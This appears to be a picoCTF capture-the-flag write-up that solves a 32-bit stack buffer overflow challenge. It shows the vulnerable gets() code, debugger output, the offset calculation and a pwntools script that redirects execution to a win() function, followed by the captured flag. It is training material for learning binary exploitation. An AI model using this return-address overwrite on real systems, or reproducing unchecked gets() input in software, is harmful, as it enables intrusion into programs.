 # Buffer Overflow 1

## Overview:

Category: Binary Exploitation
Points: 200

## Description

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program. You can view source [here](./vuln.c). And connect with it using `nc saturn.picoctf.net 49618`

## Hints

1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Approach

Lets look at the code:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

So we notice here that there is a dangerous `gets(buf);` function. Automatically we should be able to determine that we can overflow the buffer here. Now its just a matter of finding out the padding and what we want to change our return instruction pointer address to. And we know that the `win()` function will go ahead and output that flag for us.


## Attack

So we need to figure out a few things before we launch our attack.

1. The offset for our overflow.
2. The address of the win() function.

Launching pwngdb we can easily find the address of the win function:

```text
pwndbg> disassemble win
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   ebp
   0x080491fb <+5>:     mov    ebp,esp
   0x080491fd <+7>:     push   ebx
   0x080491fe <+8>:     sub    esp,0x54
   0x08049201 <+11>:    call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049206 <+16>:    add    ebx,0x2dfa
   0x0804920c <+22>:    sub    esp,0x8
   0x0804920f <+25>:    lea    eax,[ebx-0x1ff8]
   0x08049215 <+31>:    push   eax
   0x08049216 <+32>:    lea    eax,[ebx-0x1ff6]
   0x0804921c <+38>:    push   eax
   0x0804921d <+39>:    call   0x80490c0 <fopen@plt>
   0x08049222 <+44>:    add    esp,0x10
   0x08049225 <+47>:    mov    DWORD PTR [ebp-0xc],eax
   0x08049228 <+50>:    cmp    DWORD PTR [ebp-0xc],0x0
   0x0804922c <+54>:    jne    0x8049258 <win+98>
   0x0804922e <+56>:    sub    esp,0x4
   0x08049231 <+59>:    lea    eax,[ebx-0x1fed]
   0x08049237 <+65>:    push   eax
   0x08049238 <+66>:    lea    eax,[ebx-0x1fd8]
   0x0804923e <+72>:    push   eax
   0x0804923f <+73>:    lea    eax,[ebx-0x1fa3]
   0x08049245 <+79>:    push   eax
   0x08049246 <+80>:    call   0x8049040 <printf@plt>
   0x0804924b <+85>:    add    esp,0x10
   0x0804924e <+88>:    sub    esp,0xc
   0x08049251 <+91>:    push   0x0
   0x08049253 <+93>:    call   0x8049090 <exit@plt>
   0x08049258 <+98>:    sub    esp,0x4
   0x0804925b <+101>:   push   DWORD PTR [ebp-0xc]
   0x0804925e <+104>:   push   0x40
   0x08049260 <+106>:   lea    eax,[ebp-0x4c]
   0x08049263 <+109>:   push   eax
   0x08049264 <+110>:   call   0x8049060 <fgets@plt>
   0x08049269 <+115>:   add    esp,0x10
   0x0804926c <+118>:   sub    esp,0xc
   0x0804926f <+121>:   lea    eax,[ebp-0x4c]
   0x08049272 <+124>:   push   eax
   0x08049273 <+125>:   call   0x8049040 <printf@plt>
   0x08049278 <+130>:   add    esp,0x10
   0x0804927b <+133>:   nop
   0x0804927c <+134>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x0804927f <+137>:   leave
   0x08049280 <+138>:   ret
End of assembler dump.
pwndbg>
```

We can see here that the first address (AKA, the address of the function) is here at `0x080491f6`.
Now to find the offset. 

```text
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
*ECX  0xffffce1c ◂— 0x13bc2000
*EDX  0x1
*EDI  0xf7ffcba0 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffcea0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x6161616c ('laaa')
```

Using `cyclic 100` as our input, we can identify where we need to overwrite to using the letters that are stored in the EIP.

```text
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

Now knowing the address we need to reach and the padding required, we can write a solve script:

```c
from pwn import *

conn = remote("saturn.picoctf.net", 49618)
#padding required to overwrite return pointer
overflow_num = 44
#address of win()
win = 0x080491f6

payload = b'A' * overflow_num 
payload += (p32(win))

conn.sendlineafter(b'Please enter your string: ' ,payload)
print("flag:",conn.recvall().split(b"\n")[-1].decode())
```

Note: p32 is essentially correcting the input of the address into little endian. for example: "\xf6\x91\x04\x08"


```text
$ python solve.py
    [+] Opening connection to saturn.picoctf.net on port 49618: Done
    [+] Receiving all data: Done (101B)
    [*] Closed connection to saturn.picoctf.net port 49618
    flag: picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## Flag

picoCTF{addr3ss3s_ar3_3asy_b15b081e}